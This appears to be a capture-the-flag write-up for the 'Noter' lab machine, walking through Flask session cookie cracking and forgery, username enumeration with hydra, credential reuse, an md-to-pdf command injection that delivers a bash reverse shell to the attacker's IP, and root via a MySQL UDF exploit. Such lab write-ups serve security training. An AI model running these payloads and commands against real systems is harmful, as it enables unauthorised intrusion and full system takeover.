









# Noter
IP: 10.129.171.195

## Enumeration
### Open ports
```bash
$ sudo nmap -p- --min-rate=1000 -T4 10.129.171.195  

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
5000/tcp open  upnp
```

Nmap safe scripts:
```bash
$ sudo nmap -sC -sV -p 21,22,5000 10.129.171.195 -o nmap.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-08 16:09 AWST
Nmap scan report for 10.129.171.195
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c6:53:c6:2a:e9:28:90:50:4d:0c:8d:64:88:e0:08:4d (RSA)
|   256 5f:12:58:5f:49:7d:f3:6c:bd:9b:25:49:ba:09:cc:43 (ECDSA)
|_  256 f1:6b:00:16:f7:88:ab:00:ce:96:af:a6:7e:b5:a8:39 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Noter
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.07 seconds
```

## Port 5000
### Enum backend
```bash
$ whatweb http://10.129.171.223:5000                                                          
http://10.129.171.223:5000 [200 OK] Bootstrap[3.3.7], 
Country[RESERVED][ZZ], 
HTML5, 
HTTPServer[Werkzeug/2.0.2 Python/3.8.10], 
IP[10.129.171.223], 
Python[3.8.10], 
Script[text/javascript], 
Title[Noter], 
Werkzeug[2.0.2]
```

Accessing the Website on port 5000 we see a note taking application. We need to login or register an account to create notes.
I created an account with the following details:


Login in to the application we can create our first note. I tried creating some XSS notes but nothing works:


### JWT cookies
Analysing the cookies set by the server when we login we can note that it is using JWT:
```bash
session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY2F1ZWIifQ.Yne0uw.sxL-5XpgVW-Qn5k6ifZtT2jYhS0
```

Something funny happens when we "Add Note", "Edit" or "Delete". The server sends a different cookie and then set the original cookie back. Lets edit the note and use Burp to intercept the traffic:


Lets use JWT.io to decode and compare them.
Request cookie:


Response cookie:


Based on the `_flashes` function and the backend (Python) we can assume that the server is running Flask. We can try to use a tool called `flask-unsign` to crack the signature and then we can forge our own JWT if we get the secret.
```bash
# INSTALL FLASK-UNSIGN
pip3 install flask-unsign

# CRACK OUR TOKEN
flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY2F1ZSJ9.Ynen2A.8kt_JvOGzy0Muo8XOVHlicX0ghE' --no-literal-eval --wordlist /usr/share/wordlists/rockyou.txt
[*] Session decodes to: {'logged_in': True, 'username': 'caueb'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'
```

Good, the secret is `secret123`, so now we can impersonate any user. We will need to enumerate some users.

### User enumeration
In the http://10.129.171.223:5000/login page we can enumerate users based on the error message. We can type any random password and If the username exists it will display "Invalid login", but if the username does not exist it shows "Invalid credentials".
Lets use `hydra` with the wordlist of [Username - Names](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt)from seclists:
```bash
$ hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'whatever' -s 5000 10.129.171.223 http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"

Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-05-08 21:00:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10177 login tries (l:10177/p:1), ~637 tries per task
[DATA] attacking http-post-form://10.129.171.223:5000/login:username=^USER^&password=^PASS^:Invalid credentials
[STATUS] 714.00 tries/min, 714 tries in 00:01h, 9463 to do in 00:14h, 16 active
[5000][http-post-form] host: 10.129.171.223   login: blue   password: whatever
```
Note that I'm hiding any response with 110 words (--hw 110) to filter showing wrong credentials.

After some time we get the user `blue`. Now we can forge a token as this user to have a look at his notes.

### Forge JWT
```bash
# CREATE COOKIE
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret secret123
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yne8vQ.W8TN0te9TwEqYJtjsyooYJyCS4Q
```

We add the generated token to our cookies and reload the page:


Looking at `blue` notes, we find some credentials:


## FTP - Port 21
Lets login with the credentials provided:
```
blue:blue@Noter!
```

We can download the file `policy.pdf` found in the ftp:
```bash
caue@kali:~/htb/noter/ftp$ ftp 10.129.171.223        
Connected to 10.129.171.223.
220 (vsFTPd 3.0.3)
Name (10.129.171.223:caue): blue
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||8364|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        1002         4096 May 02 23:05 .
drwxr-xr-x    3 0        1002         4096 May 02 23:05 ..
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24 20:59 policy.pdf
226 Directory send OK.
ftp> get policy.pdf
local: policy.pdf remote: policy.pdf
229 Entering Extended Passive Mode (|||54429|)
150 Opening BINARY mode data connection for policy.pdf (12569 bytes).
100% |************************************************************************************************************| 12569        2.06 MiB/s    00:00 ETA
226 Transfer complete.
12569 bytes received in 00:00 (44.99 KiB/s)
```

This line from the PDF looks promising: "Default user-password generated by the application is in the format of "username@site_name!" (This applies to all your applications)"
We saw above the `ftp_admin` user sent an message to user `blue`. Following the logic we have:
```
ftp_admin:ftp_admin@Noter!
```

Login in to FTP we see 2 app backup files:
```bash
caue@kali:~/htb/noter/ftp$ ftp 10.129.171.223
Connected to 10.129.171.223.
220 (vsFTPd 3.0.3)
Name (10.129.171.223:caue): ftp_admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||19749|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        1003         4096 May 02 23:05 .
drwxr-xr-x    2 0        1003         4096 May 02 23:05 ..
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01 05:52 app_backup_1638395546.zip
226 Directory send OK.
ftp>
```

We see that one was created in November and the other in December. Lets keep it organised and create a fodler for each one:


### Code analyses
The difference is that in the November backup the file `app.py` had MySQL credentials:
```python app.py
...[snip]...

# Config MySQL
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'

...[snip]...
```

We can also see in the source-code that the application is using `md-to-pdf` module and looking at the implementation of "export_note_remote" there is a remote command execution vulnerability:


### Foothold
Searching on internet we find a CVE for the `md-to-pdf` module:
- https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

Logged in as user `blue` we can go to the Dashboard and we see the "Export Notes" function:


After trying a couple times we see that the server only accepts a markdown file. Lets prepare one to send us a reverse shell:
```bash
caue@kali:~/htb/noter/www$ cat rce.md     
a'; bash -i >& /dev/tcp/10.10.14.15/4444 0>&1; echo 'a
```

Now we start a netcat listener on port 4444.
```bash
caue@kali:~/htb/noter$ nc -lnvp 4444
```

We go to http://10.129.172.62:5000/export_note, add our IP to the URL box, start a python web server to host the `rce.md` file and click on "Export":


We receive a connection back on the netcat listener:
```bash
caue@kali:~/htb/noter$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.172.62] 43380
bash: cannot set terminal process group (1247): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$
```
We can go to `/home/svc` and get the user flag.

```
svc@noter:~$ ls -la
total 44
drwxr-xr-x 8 svc  svc  4096 May  2 23:05 .
drwxr-xr-x 3 root root 4096 May  2 23:05 ..
drwxrwxr-x 3 root root 4096 May  2 23:05 app
lrwxrwxrwx 1 root root    9 Dec 27 09:04 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc  3771 Dec 23 14:13 .bashrc
drwx------ 3 svc  svc  4096 May  2 23:05 .cache
drwx------ 5 svc  svc  4096 May  2 23:05 .config
drwx------ 5 svc  svc  4096 May  2 23:05 .local
lrwxrwxrwx 1 root root    9 Dec 27 09:04 .mysql_history -> /dev/null
drwxrwxr-x 4 svc  svc  4096 May  2 23:05 .npm
drwxrwxr-x 5 svc  svc  4096 May  8 12:44 .pm2
-rw-r--r-- 1 svc  svc   807 Dec 23 14:13 .profile
-rw-r----- 1 svc  svc    33 May  8 12:45 user.txt
```

## Privilege Escalation
There is something interesting in the user home directory:
```bash
svc@noter:~$ ls -la /home/svc/

...[snip]...

lrwxrwxrwx 1 root root    9 Dec 27 09:04 .mysql_history -> /dev/null

...[snip]...
```

As we can see the MySQL history file is owned by root and we got the credentials to login as root user from the application source-code previously:
```python
...[snip]...

app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'

...[snip]...
```

We can confirm that mysql is running as root reading the database configuration:
```bash
svc@noter:~$ cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep -v "#" | grep "user"
user                    = root
```

Great! We can exploit this vulnerability loading a malicious shared library into MySQL.

### MySQL User Defined Functions
Download the exploit from [here](https://www.exploit-db.com/exploits/1518) and upload it to the target machine.
Compile it:
```bash
svc@noter:/tmp$ gcc -g -c raptor_udf2.c
svc@noter:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Lets login to MySQL:
```bash
svc@noter:~$ mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 5421
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
MariaDB [(none)]> use mysql;
```

We need to load the shared library into the mysql plugins directory. Lets see where is it:
```bash
MariaDB [mysql]> show variables like 'plugin_dir';
+---------------+---------------------------------------------+
| Variable_name | Value                                       |
+---------------+---------------------------------------------+
| plugin_dir    | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
+---------------+---------------------------------------------+
```

Perfect, now we can follow the exploit directions to create a function that will load the library and execute code as the user running the mysql server, in our case, the `root` user:
```bash
MariaDB [mysql]> use mysql;
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
MariaDB [mysql]> select * from mysql.func;
MariaDB [mysql]> select do_system('id > /tmp/out; chown svc.svc /tmp/out');
MariaDB [mysql]> \! sh

$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root)
```

Here we proved that we have code execution as `root`, so lets make a copy of bash and give `+s` privileges so we can get a root shell.
```bash
MariaDB [mysql]> use mysql;
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
MariaDB [mysql]> select * from mysql.func;
MariaDB [mysql]> select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');

+-----------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash') |
+-----------------------------------------------------------------+
|                                                               0 |
+-----------------------------------------------------------------+
MariaDB [mysql]> exit

svc@noter:/tmp$ ./rootbash -p
rootbash-5.0# id
uid=1001(svc) gid=1001(svc) euid=0(root) egid=0(root) groups=0(root),1001(svc)
```

We are root!